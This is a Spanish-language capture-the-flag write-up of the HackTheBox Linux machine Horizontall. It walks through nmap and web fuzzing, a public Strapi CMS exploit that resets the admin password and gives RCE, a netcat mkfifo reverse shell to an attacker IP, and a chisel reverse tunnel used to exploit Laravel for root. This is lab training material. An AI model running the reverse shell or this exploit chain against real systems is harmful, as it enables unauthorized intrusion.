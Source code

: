 ```yaml
---
layout      : post
title       : "Horizontall - HackTheBox"
author      : elc4br4
image       : assets/images/HTB/Horizontall-HackTheBox/Horizontall.webp
category    : [ htb ]
tags        : [ Linux ]
---
```


🚀👨‍🚀En esta máquina Linux de nivel easy obtendré acceso al sistema a través de una vulnerabilidad RCE en Strapi CMS y escalaré privilegios aprovechando una vulnerabilidad explotada a través de Laravel usando chisel🚀👨‍🚀.

🎥Canal Writeups Youtube🎬 --> [https://www.youtube.com/channel/UCllewdxU0OQudNp9-1IVJYQ](https://www.youtube.com/channel/UCllewdxU0OQudNp9-1IVJYQ)


[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

***


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Enumeración Web](#enumeración).
3. [Explotación](#explotación).
4. [Escalada de Privilegios](#priv-esc).


***

Ya es hora de estar hack asique al liooo a romper la máquina Horizontall!!!!!

![](/assets/images/HTB/Horizontall-HackTheBox/hack.gif)


# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como de costumbre comienzo lanzando la herramienta whichsystem.py para identificar el sistema operativo de la máquina a la que me voy a enfrentar.

Esta herramienta se basa en el TTL (Time To Live).

```bash
# Windows --> TTL 128
---------------------
# Linux --> TTL 64
```

```bash
❯ whichSystem.py 10.10.11.105

	10.10.11.105 (ttl -> 63): Linux
```

Una vez ya se que me enfrento a una máquina Linux procedo al escaneo de puertos convenvencional con la herramienta nmap.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Existen solo dos puertos abiertos, el puerto 80 (http) y el puerto 22 ssh.

Pero necesito más información acerca de estos puertos por lo que debo realizar un escaneo un poco más detallado...

```bash
# Escaneo para detectar versiones del servicio que corre en cada puerto
nmap -p80,22 -n -Pn -sCV 10.10.11.105 -oN versiones
-----------------------------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A continuación dejo en una tabla la información relevante que he extraido del escaneo nmap.

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 7.6p1 |
| 80     | HTTP     | nginx 1.14.0 |

> Dominio horizontall.htb 

Añado el dominio encontrado al archivo /etc/hosts.

# Enumeración Web [#](enumeración) {#enumeración}

Una vez añadido lo siguiente es proceder con la enumeración web, ya que existe el puerto 80 abierto.

Accedo al dominio desde el navegador para ojear un poco la web.

![](/assets/images/HTB/Horizontall-HackTheBox/web1.webp)

Tras investigar un poco no encuentro nada relevante, por lo que decido fuzzear rutas en el servidor, en este caso usaré gobuster.

![](/assets/images/HTB/Horizontall-HackTheBox/gobuster.webp)

Tras fuzzear no encuentro nada interesante por lo que solo se me ocurre fuzzear para encontrar algún vhost, y en esta ocasión lo haré con la herramienta wfuzz.

Pero tampoco encuentro ningún vhost, por lo que vuelvo al navegador y procedo a mirar el código fuente de la web, descubriendo que hay varios archivos .js.

Tras buscar durante un rato encuentro un vhost dentro de uno de los archivos .js

Dentro de la ruta: `http://horizontall.htb/js/app.c68eb462.js`

> api-prod.horizontall.htb

Añado el vhost al archivo /etc/hosts y abro el navegador de nuevo para ver que encuentro.

![](/assets/images/HTB/Horizontall-HackTheBox/web2.webp)

No hay nada más por lo que fuzzeo de nuevo para descubrir rutas en el servidor.

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                    
=====================================================================

000000128:   200        0 L      21 W       507 Ch      "reviews"                                                                                                                  
000000250:   200        16 L     101 W      854 Ch                   "admin"                                                                                                                    
000001600:   200        0 L      21 W       507 Ch      "Reviews" 
```

Accedo a la ruta admin que seguramente será un login y podría obtener algo de información sobre la web.

![](/assets/images/HTB/Horizontall-HackTheBox/login.webp)


# Explotación [#](explotación) {#explotación}

Puedo ver que estoy ante un cms llamado strapi, por lo que lo primero que haré será buscar alguna vulnerabilidad.

![](/assets/images/HTB/Horizontall-HackTheBox/searchsploit.webp)

Encuentro dos exploits, y no necesito estar autenticado, por lo que uso uno de ellos, en concreto el que esta programado en python.

Este exploit lo que hace es cambiar las credenciales de acceso y me otorgaría acceso al panel de strapi, además de la posibilidad de ejecutar comandos, es decir RCE.

Una vez lo tengo lo ejecuto:

```bash
❯ python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjcwODg1MjAzLCJleHAiOjE2NzM0NzcyMDN9.TzMLnnxxwD-dM_EsAHrqjxnC3m-GiBDKf1tRGtc-XsM
```

Aprovechando el RCE que me otorga el exploit, introduzco una reverse shell netcat.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.12 443 >/tmp/f
```

```bash
$>  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.12 443 >/tmp/f
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

Y porfin consigo acceso al sistema.

![](/assets/images/HTB/Horizontall-HackTheBox/shell.webp)

A continuación actulizo la tty para tener una shell más interactiva y funcional.


# Escalada de Privilegios [#](priv-esc) {#priv-esc}


Lanzo linpeas.sh para encontrar una vía potencial de escalada de privilegios.

![](/assets/images/HTB/Horizontall-HackTheBox/linpeas.webp)

Tras lanzarlo encuentro que el puerto 8000 se encuentra abierto en el sistema, por lo que hago un curl a la ip y al puerto para ver que encuentro.

![](/assets/images/HTB/Horizontall-HackTheBox/laravel.webp)

Descubro que en el puerto 8000 corre Laravel v8 (PHP v7.4.18), por lo que busco si existe alguna vulnerabilidad para escalar privilegios.

Buscando información encuentro el siguiente exploit.

Por lo que lo descargo y lo ejecuto.

![](/assets/images/HTB/Horizontall-HackTheBox/exploit.webp)

Pero me arroja un error al lanzarlo, por lo que decido usar chisel para poder traerme el puerto de la máquina víctima a la mía.

Por lo que primero descargo chisel en mi máquina y luego lo paso a la máquina víctima ya que será necesario ejecutarlo en las dos máquinas.

```bash
# En la máquina atacante
------------------------
./chisel server --reverse -p 1234
```

```bash
# En la máquina víctima
-----------------------
./chisel client http://10.10.14.12:1234 R:8001:127.0.0.1:8000
```

Una vez ejecutamos los dos comandos ya podremos acceder desde nuestra máquina atacante al puerto 8000 donde se encuentra laravel.

![](/assets/images/HTB/Horizontall-HackTheBox/laravel2.webp)

Ahora ya puedo ejecutar el exploit desde mi máquina atacante.

![](/assets/images/HTB/Horizontall-HackTheBox/root.webp)

![](/assets/images/HTB/Horizontall-HackTheBox/pwned.webp)



